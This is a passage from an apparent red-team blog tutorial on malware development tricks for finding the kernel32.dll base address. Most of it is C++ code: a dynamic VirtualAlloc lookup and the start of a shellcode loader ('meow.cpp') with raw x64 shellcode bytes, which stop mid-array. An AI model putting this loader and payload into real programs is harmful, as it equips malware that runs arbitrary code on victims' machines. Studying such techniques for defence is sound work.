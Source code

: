 ```yaml
---
title:  "Malware development tricks. Find kernel32.dll base: asm style. C++ example."
date:   2022-04-02 10:00:00 +0600
header:
  teaser: "/assets/images/47/2022-04-02-malware-18.png"
categories:
  - tutorial
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/47/2022-04-02-malware-18.png){:class="img-responsive"}    

This post is the result of my self research into interesting trick in real-life malware.    

In the one of my [previous](tutorial/2021/09/06/simple-malware-av-evasion-2.html) posts I wrote about using `GetModuleHandle`. It is returns a handle a specified DLL. For example:

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

//...

int main() {
   DWORD oldprotect = 0;

   HMODULE hk32 = GetModuleHandle("kernel32.dll");
   pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");

   //...

   return 0;
}
```

Then, the actual way to execute shellcode is something like this (`meow.cpp`):    

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
```